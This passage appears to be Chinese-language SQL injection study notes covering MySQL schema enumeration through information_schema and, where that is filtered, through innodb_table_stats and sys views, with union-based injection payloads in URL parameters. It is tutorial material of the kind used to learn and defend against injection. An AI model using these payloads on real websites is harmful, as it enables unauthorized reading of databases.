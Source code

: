 ```sql
# 查询所有数据库
select schema_name from information_schema.schemata;

# 查询指定数据库存在哪些表
select table_name from information_schema.tables where table_schema='security';

# 查询指定表存在哪些字段
select column_name from information_schema.columns where table_schema='security' and table_name='users';
```

>   **然后，就是根据查询到的表名、列明进行进一步的查询即可得到目标数据。**

####2、过滤了`information_schema`

-   **Mysql 5.5.8开始，Innodb成为默认存储引擎**

-   **Mysql 5.6以上版本中，新增`innodb_index_stats`和`innodb_table_stats`两张表**

    -   这两张表中都**存储了数据库**和**其他数据表的信息**，**没有存储列名**

-   **Mysql 5.6版本中，可以使用`mysql.innodb_table_stats`和`mysql.innodb_table_index`这两张表来替换`information_schema.table`实现注入，只不过没有列名**

-   ```sql
    ?id=0' union select 1,2,(select group_concat(database_name) from mysql.innodb_table_stats)%23
    
    ?id=0' union select 1,2,(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())%23
    ```

-   **Mysql 5.7中，innodb不作为默认数据库引擎其中这两个表不包含新建立的库和表相关信息**

    -   可以使用`select * from innodb_table_stats`查看

-   **Mysql 5.7中，新增sys系统数据库，它是通过视图的形式把`information_schema`和`performanace_sachema`结合起来**

    -   **sys库下有两种表**

        -   **字母开头**：适合人阅读，是格式化的数据
        -   **x$开头**：适合工具采集数据，原始类数据

##### **sys库的利用**

-   `sys.schema_auto_increment_columns`：监控表自增ID，**保存着自增字段表的相关信息**

```sql
mysql> select * from sys.schema_auto_increment_columns;
+--------------+------------+-------------+-----------+-------------+----------------+
| table_schema | table_name | column_name | data_type |  max_value  | auto_increment | 
+--------------+------------+-------------+-------------+-----------+-------------+--|
| test         | migration  | id          | int       |  4294967295 |            231 | 
+--------------+------------+-------------+-----------+-------------+----------------+
```

-   **基于这个特性，就能替换`information_schema`来查询数据库和表了**

```sql
# 查询有自增索引的数据库名称
select table_schema from sys.schema_auto_increment_columns;

# 根据数据库名称查询存在自增字段的表（存在自增字段的所有表）
select table_name from sys.schema_auto_increment_columns where table_schema='security';
```
